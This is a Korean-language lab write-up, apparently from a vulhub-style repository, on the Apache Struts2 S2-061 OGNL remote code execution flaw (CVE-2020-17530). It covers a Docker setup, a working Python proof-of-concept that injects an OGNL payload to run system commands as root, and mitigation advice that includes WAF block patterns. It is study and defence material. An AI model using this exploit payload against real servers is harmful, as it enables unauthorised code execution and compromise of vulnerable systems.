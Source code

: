# CVE-2020-17530 - Apache Struts2 RCE (s2-061)
#### [github link](https://github.com/daehyeok0618/kr-vulhub/tree/main/Struts2/CVE-2020-17530)
#### [참고 자료 vulhub CVE-2020-17530](https://github.com/vulhub/vulhub/tree/master/struts2/s2-061)
## 개요
CVE-2020-17530은 Apache Struts2 프레임워크의 `Struts 2.5.22` 이하 버전에서 발생하는 Remote Code Execution (원격 코드 실행) 취약점입니다. 이 취약점은 `Forced OGNL evaluation`로 인해 발생하며, 공격자가 조작된 OGNL 표현식을 HTTP 요청 내에 주입함으로써 서버 측에서 악성 코드를 실행시킬 수 있습니다.

## 환경 설정
다음을 입력하면 Struts 2.5.25 서버가 시작됩니다.
```bash
docker-compose up -d
```
환경이 시작된 후 `http://your-ip:8080`에 방문하면 간단한 페이지가 표시됩니다.
![image](./image.png)
환경을 구성했습니다.


## POC
다음과 같은 공격 코드를 이용해서 `id` 명령을 실행하는 요청을 보냈습니다. 공격자는 multipart/form-data 요청을 통해 서버의 파라미터 처리 구문에 조작된 OGNL payload를 주입합니다.
```
import requests

url = "http://localhost:8080/index.action"

# exploit payload (multipart/form-data 형식)
payload = '''%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
(#bean.setBean(#stack)).
(#context=#bean.get("context")).
(#bean.setBean(#context)).
(#macc=#bean.get("memberAccess")).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance("java.util.HashSet")).
(#bean.put("excludedClasses",#emptyset)).
(#bean.put("excludedPackageNames",#emptyset)).
(#arglist=#instancemanager.newInstance("java.util.ArrayList")).
(#arglist.add("id")).
(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))}'''

# multipart 형식으로 보냄
files = {
    "id": (None, payload)
}

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36"
}

response = requests.post(url, files=files, headers=headers)

print("Status Code:", response.status_code)
print("Response Body:\n", response.text)
```

![imgage1](./image1.png)
결과를 보면 현재 명령이 루트 권한으로 실행됨을 알 수 있습니다. 즉, 공격자가 웹애플리케이션 서버에서 루트 권한으로 시스템 명령어 실행에 성공하였습니다.

## 결론
+ Apache Struts2 S2-061 (CVE-2020-17530) 취약점은 OGNL 표현식이 잘못 처리되어 공격자가 원격 코드 실행(RCE)을 할 수 있는 심각한 보안 문제입니다. 대응 방안으로는 먼저 Struts를 2.5.26 이상으로 즉시 업데이트해야 하며, struts.xml 설정에서 struts.excludedClasses와 struts.excludedPackageNames를 명시적으로 제한해 OGNL 접근을 차단합니다.
+ 패치가 어려운 환경에서는 WAF를 사용해 %{, freemarker, Runtime 등 의심스러운 문자열이 포함된 요청을 차단하거나 .action 경로에 접근제어를 적용합니다. 또한 웹서버 로그를 분석해 이상 행위를 탐지하고, 정기적인 보안 점검과 의존성 관리 도구를 통해 취약한 라이브러리를 업데이트해야 합니다.
